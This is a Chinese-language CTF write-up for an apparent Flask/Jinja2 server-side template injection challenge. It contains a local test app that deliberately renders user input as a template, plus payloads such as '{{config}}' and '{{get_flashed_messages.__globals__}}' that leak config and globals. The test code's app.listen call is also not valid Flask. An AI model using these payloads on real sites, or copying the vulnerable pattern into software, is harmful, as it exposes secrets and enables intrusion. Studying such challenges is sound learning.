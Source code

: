 2. 在本地编写Flask测试屏蔽掉的config的作用

   * 测试代码

     ```python
     import flask
     import os
     
     #创建Flask实例，参数为应用模块的名字
     app = flask.Flask(__name__)
     
     #新增配置
     app.config['FLAG'] = 23333
     
     @app.route('/test/<path:shrine>')
     def test(shrine):
         return flask.render_template_string(shrine)
     
     if __name__ == '__main__':
         app.listen(2333)
         app.run(debug=True)
        
     ```
     
   * 访问本地网络，"http://127.0.0.1:2333/test/\{\{config\}\}"，返回内容如下

     ```python
     < Config {
        	'ENV': 'production',
        	'DEBUG': True,
        	'TESTING': False,
        	...........
        	...........
        	'MAX_COOKIE_SIZE': 4093,
        	'FLAG': 23333
        } >
     ```
   
   * 所以屏蔽掉的config其实是访问到flag的


3. 在网上检索Jinja2执行时上下文中有哪些存在的对象
   * 请求对象request，从它本身和它继承的类中的所有方法中没有找到可以利用的
   * 会话对象session，在本题中session为空
   * 全局对象g
   * 配置对象config，由于黑名单新生成了一个成员变量config为空，导致访问config时访问到成员变量而不是全局变量
4. 由于path转换器支持斜杠，所以尝试目录遍历
5. ...........
6. 没做出来

## 别人的解法

1. 访问'/shrine/\{\{get\_flashed\_messages.\_\_globals\_\_\}\}'，网页返回内容为

   ```json
   {
   	..............
   	'current_app': < Flask 'app' > ,
   	..............
   	'io': < module 'io' from '/usr/local/lib/python2.7/io.pyc' > ,
   	'get_flashed_messages': < function get_flashed_messages at 0x7f4f8950ed70 > ,
   	..............
   	'__package__': 'flask',
   	'locked_cached_property': < class 'flask.helpers.locked_cached_property' > ,
   	'_app_ctx_stack': < werkzeug.local.LocalStack object at 0x7f4f8953e750 > ,
   	..............
   	'get_template_attribute': < function get_template_attribute at 0x7f4f8950ec80 > ,
   	'_request_ctx_stack': < werkzeug.local.LocalStack object at 0x7f4f89533290 > ,
   	..............
   ```